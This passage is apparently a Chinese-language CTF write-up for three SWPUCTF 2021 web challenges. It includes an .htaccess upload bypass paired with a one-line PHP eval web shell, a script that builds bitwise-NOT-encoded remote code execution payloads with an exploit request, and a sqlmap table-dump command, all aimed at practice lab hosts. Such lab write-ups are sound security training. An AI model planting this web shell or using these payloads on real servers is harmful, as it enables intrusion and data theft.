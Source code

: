 略。

## 10.[SWPUCTF 2021 新生赛]easyupload3.0

上传文件“.htaccess”，内容为：

```
<FilesMatch "1.jpg">
    SetHandler application/x-httpd-php
</FilesMatch>
```

此时upload路由下匹配文件名“1.jpg”的文件将会被当作php解析。

再上传文件”1.jpg“，内容为：

```php
<?php @eval($_POST['a']);?>
```

拿Antsword去连。

## 11.[SWPUCTF 2021 新生赛]hardrce

利用以下脚本生成函数为system、参数为ls /的payload：

```php
<?php
    fwrite(STDOUT,'[+]your function: ');
    $system=str_replace(array("\r\n","\r","\n"),"",fgets(STDIN));
    fwrite(STDOUT,'[+]your command: ');
    $command=str_replace(array("\r\n","\r","\n"),"",fgets(STDIN));
    echo '[*] (~'.urlencode(~$system).')(~'.urlencode(~$command).');';
?>
```

找到flag位置，尝试访问：

```url
http://node5.anna.nssctf.cn:28234/?wllm=(~%8C%86%8C%8B%9A%92)(~%9C%9E%8B%DF%D0%99%93%93%93%93%93%9E%9E%9E%9E%9E%9E%98%98%98%98%98%98%98);
```

exp：

```python
import requests
response=requests.get('http://node5.anna.nssctf.cn:28254/?wllm=(~%8C%86%8C%8B%9A%92)(~%9C%9E%8B%DF%D0%99%93%93%93%93%93%9E%9E%9E%9E%9E%9E%98%98%98%98%98%98%98);')
print(response.text[-45:])
```

## 12.[SWPUCTF 2021 新生赛]erro

```bash
sqlmap -u http://node4.anna.nssctf.cn:28961/index.php?id=1 -D test_db -T test_tb -C flag --dump
```
